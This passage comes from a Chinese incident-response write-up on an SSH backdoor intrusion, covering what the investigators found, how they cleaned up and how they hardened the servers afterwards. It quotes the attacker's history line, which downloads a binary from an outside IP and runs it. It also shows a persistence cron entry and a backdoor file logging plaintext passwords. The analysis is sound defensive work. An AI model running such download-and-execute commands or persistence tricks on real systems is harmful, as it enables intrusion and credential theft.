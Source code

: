 ```
$ su - test
$ history
    50 wget http://71.39.255.125/~ake/perf;chmod +x perf; ./perf #非同事操作的可疑命令
$ w  #并且无法查看当前的登录用户
$ cat /usr/include/netda.h  #找到一个用户登录就记录其密码的文件
+user: bin +password:worlddomination
+user: test +password:TF4eygu4@#$ds
```

- [x] (7):在另外一台服务器上，发现某账号家目录下有个dead.letter文件，用于将获取到的信息（系统信息，IP地址，账号密码等）发送至指定的邮箱
- [x] (8)：又在另外一台服务器上部署了一套可疑的程序，估计是作为肉鸡功能

```
$ sudo crontab -e
$ * * * * * /usr/include/statistics/update > /dev/null 2>&1
#原有的cron任务已被清空，仅有该条可疑任务
```

- [x]  (9)：找到/usr/include/statistics为主程序的目录，其中update为主程序，通过autorun脚本进行部署，执行crond伪装成crond服务，使原crond服务隐藏且无法启动，将cron覆盖至原有crontab文件来每分钟执行update二进制程序，mech.pid记录伪装的crond程序的PID

![屏幕快照 2017-03-13 下午6.25.14.png-2479.9kB](http://static.zybuluo.com/chensiqi/wmg4w3mhbpz1ubdzyu7i305p/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202017-03-13%20%E4%B8%8B%E5%8D%886.25.14.png)

**三，清理工作**

- [x] 紧急修复清理

将准备好的正常的ssh相关文件上传至被入侵服务器的/tmp目录下

1)查看并修改属性

![屏幕快照 2017-03-13 下午9.23.48.png-46.5kB](http://static.zybuluo.com/chensiqi/i454w5yt1ol311t371lappkf/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202017-03-13%20%E4%B8%8B%E5%8D%889.23.48.png)

2）恢复ssh和sshd

![屏幕快照 2017-03-13 下午9.24.46.png-81.2kB](http://static.zybuluo.com/chensiqi/dcgly0cq2tukoecf67wahfuh/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202017-03-13%20%E4%B8%8B%E5%8D%889.24.46.png)

3)删除多余的文件以及恢复crond

![屏幕快照 2017-03-13 下午9.24.51.png-38.6kB](http://static.zybuluo.com/chensiqi/kpu0g74twpo4e2o2n3fzsfcq/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7%202017-03-13%20%E4%B8%8B%E5%8D%889.24.51.png)

- [x] 后续安全工作

1）修改所有涉及的服务器的账户密码，之后其他使用同类密码的服务器也需改掉

2）配置防火墙策略，只允许公司外网IP可ssh访问服务器

3）对于被入侵过的服务器系统后期逐步重做系统，避免存在未清理的后门

**四，总结**

此次的遭受攻击，问题主要是运维安全意识较差，以及防火墙策略比较松散，为了便于远程工作，像ssh端口未做限制，服务器几乎是裸奔的状态。经过此番折腾，也对服务器安全方面做了一次警示，需加强防御工作，同时也了解到典型的ssh后门功能：其一是超级密码隐身登陆；其二是记录登陆的账号密码。后续还需制定一系列入侵检测机制，以防再次出现入侵事故。

### 5.1 如何防止SSH登录入侵小结：

1，用密钥登录，不用密码登录
 2，防火墙封闭SSH，指定源IP限制（局域网，信任公网）
 3，开启SSH只监听本地内网IP（ListenAddress10.0.0.8）。
 4，尽量不给服务器外网IP
